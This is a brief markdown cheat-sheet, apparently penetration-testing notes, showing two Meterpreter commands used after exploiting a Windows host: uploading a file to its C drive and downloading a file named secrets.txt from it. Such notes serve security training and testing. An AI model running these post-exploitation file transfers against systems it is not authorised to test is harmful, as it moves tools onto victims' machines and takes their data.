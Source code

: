 # metasploit

## Upload Files after Exploitation within Meterpreter

```bash
upload /root/files/secrets.txt c:\\ #(uploads to c drive)
```

## Download Files after Exploitation within Meterpreter

```bash
download c:\secrets.txt secrets.txt
```

